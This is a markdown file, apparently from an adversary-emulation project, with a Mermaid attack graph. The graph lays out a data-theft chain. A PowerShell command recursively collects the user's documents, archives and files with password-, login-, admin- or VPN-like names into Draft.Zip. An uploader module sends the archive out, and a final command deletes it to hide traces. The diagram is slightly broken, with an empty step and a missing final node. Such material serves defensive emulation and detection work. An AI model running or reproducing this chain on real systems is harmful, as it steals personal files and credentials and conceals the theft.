

 #Attack Graph



 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load run </i> <br>"]
Step2["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c powershell -Command $env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\Draft.Zip -Force </i> <br>"]
Step3["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load uploader </i> <br>"]
Step4["<b> module: uploader </b> <br><h4> parameters: </h4> <i> --remotepath %USERPROFILE%\AppData\Roaming\Draft.zip </i> <br>"]
Step5[""]
Step6["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c del %USERPROFILE%\AppData\Roaming\Draft.Zip </i> <br>"]
Step0 --> Step1
Step1 --> Step2
Step2 --> Step3
Step3 --> Step4
Step4 --> Step5
Step5 --> Step6
Step6 --> Step7
```
